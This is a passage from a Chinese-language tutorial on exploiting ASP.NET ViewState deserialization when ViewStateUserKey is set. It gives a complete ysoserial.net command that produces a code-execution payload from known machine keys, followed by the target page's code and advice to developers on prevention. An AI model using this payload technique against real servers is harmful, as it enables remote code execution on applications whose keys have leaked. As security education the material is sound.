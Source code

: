 案例 6: 使用 ViewStateUserKey
-------------------------

如本文开头所述，ViewStateUserKey 属性可用于抵御 CSRF 攻击。如果应用程序中已经定义了这样的密钥，并且我们试图使用到目前为止讨论的方法生成 ViewState payload，则应用程序将不会处理 payload 。这里，我们需要将另一个参数传递给 ysoserial ViewState 生成器，如下所示：

```
ysoserial.net-master\ysoserial.net-master\ysoserial\bin\Debug>ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "echo 123 > c:\windows\temp\test.txt" --path="/test.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="EBA4DC83EB95564524FA63DB6D369C9FBAC5F867962EAC39" --validationalg="SHA1" --validationkey="B3C2624FF313478C1E5BB3B3ED7C21A121389C544F3E38F3AA46C51E91E6ED99E1BDD91A70CFB6FCA0AB53E99DD97609571AF6186DE2E4C0E9C09687B6F579B3" --viewstateuserkey="randomstringdefinedintheserver"
```

（译者注：`--viewstateuserkey="randomstringdefinedintheserver"` 在原文中存在加粗，本文由于使用 markdown 编辑，无法在代码格式中进行加粗）

下面是我们用来演示这个例子的后端代码：

后端代码：

```
using System;using System.Collections.Generic;using System.Web;using System.Web.UI;using System.Web.UI.WebControls;using System.Text.RegularExpressions;using System.Text;using System.IO;public partial class test : System.Web.UI.Page{ void Page_Init (object sender, EventArgs e)  {    ViewStateUserKey = "randomstringdefinedintheserver";   }    protected void Page_Load(object sender, EventArgs e)    {    }protected override void OnInit(EventArgs e)    {        base.OnInit(e); }    protected void Button1_Click(object sender, EventArgs e)    {        Label1.Text = TextArea1.Text.ToString();    }}
```

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBTMIXFdYEtxcHkXKQlmFajJs2CvNA6qvoe5GR2NYb83LqhFgicTuiaqDnPHjLPF3VAnWTRXkFUKNtNA/640?wx_fmt=png)

文件 test.txt 在提交请求后创建  

开发人员应采取什么措施来阻止漏洞利用？
-------------------

1.  升级 ASP.NET 框架，以便无法禁用 MAC 验证。
    
2.  不要硬编码 web.config 文件中的解密和验证密钥。相反，依赖于 IIS 的 “运行时自动生成” 功能。即使 **web.config** 文件被任何其他漏洞（例如读取的本地文件）所获取，攻击者也无法检索出创建 payload 所需的密钥值。
    
    例如：![](https://mmbiz.qpic.cn/mmbiz_jpg/PUubqXlrzBTMIXFdYEtxcHkXKQlmFajJicdwzD4iakMRStt1WbQejd7zk8I9ibK4DBrGgvZUqnv6Viap3YMTSOr8Zw/640?wx_fmt=jpeg)
    

自动生成验证解密密钥配置

   或者，

   加密 machine key 的内容，使得泄露的 web.config 文件不会显示 machineKey 参数中的值。一个例子。

3. 重新生成任何 已泄露 / 先前泄露 的 验证 / 解密 密钥。

4. 不要在应用程序中的 web.config 中粘贴能够在线找到的 machineKey 。

参考
--

1.  https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/
    
